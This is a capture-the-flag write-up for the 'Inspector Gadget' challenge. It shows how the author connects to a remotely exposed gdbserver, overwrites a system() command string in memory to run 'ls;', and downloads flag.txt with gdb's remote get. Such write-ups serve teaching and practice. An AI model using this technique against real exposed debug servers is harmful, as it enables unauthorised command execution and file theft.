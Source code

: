 **Name**: Inspector Gadget  
**Points**: 400  
**Instructions**: Exploit the vulnerable inspector-gadget service running at challenges.runesec.com:22417.  
**Hint**: And now you'll be telling stories of my return and they won't be false, and they won't be true but they'll be real  

## Exploration
- `$ strings inspector-gadget` doesn't reveal much.
- Running the binary: Prompts for input, then prints "Answer: LOL!!" and starts a `gdbserver`.
- `$ r2 inspector-gadget` reveals nothing that could lead us to the flag; however, the following 2 lines give us a *Christmas-came-early* moment:
> **0x080485b3**      68a4860408     push str.gdbserver_:65488_inspector_gadget ; str.gdbserver_:65488_inspector_gadget ; "gdbserver :65488 inspector-gadget" @ 0x80486a4  
> **0x080485b8**      e833feffff     **call sym.imp.system**         ;[9]  

- That's a system call. Maybe we can replace the system call to gdbserver with something that can lead us closer to the flag.  
- We also connect to the service running on their server. Same as locally, we get prompted to give an input and then the `gdbserver` is started, on their server. We can connect to it.
```
$ gdb inspector-gadget
gdb > target remote ctf.challenges.com:65488
``` 
- Brainstorming. 
  - The flag is somewhere on the remote server.
  - Maybe we can load some symbols for debugging from an external file.
  - That system call that's available to us is too powerful to be ignored.
  - Maybe we can directly access files on the remote file system.

## Exploitation
Let's use that overwrite that system call from  
`gdbserver :65488 inspector-gadget`  
to something short and simple:  
`ls;`

The string `gdbserver :65488 inspector-gadget` is at memory location `0x80486a4`.

We can override it like so:
```
gdb> set {int}0x80486a4 = 0x3B736C
gdb> continue
```  
*0x3B736C is the hex representation of `ls;`, reversed.*  

It works! On the opened session we have connected to their server it prints:
`flag.txt inspector-gadget` and one more file, but our eyes are staring at `flag.txt`. We must capture it.  

We start thinking about crafting a (short) system call to get the contents of `flag.txt`. `cat *;` maybe?  

Midway of thinking of byte sequences that would make the system call reveal the contents of `flag.txt`, we recall an interesting command for `gdb`:

```
gdb> remote get flag.txt flag.local
```

*Cue the drum roll*   

```
$ cat flag.local
flag{82ef8b2e007da38b9ce1547cd249f6bd}
```
